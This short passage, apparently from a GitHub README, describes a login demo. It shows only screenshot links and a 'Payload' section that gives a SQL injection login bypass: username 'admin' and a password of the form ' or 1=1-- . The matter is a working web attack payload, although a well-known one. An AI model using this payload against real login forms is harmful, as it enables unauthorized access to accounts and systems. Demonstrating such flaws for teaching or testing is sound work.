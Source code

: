 #### Login

- Demo

![](images/1.png)

![](images/2.png)

![](images/3.png)

- Payload

```
Username: admin
Password: ' or 1=1-- 
```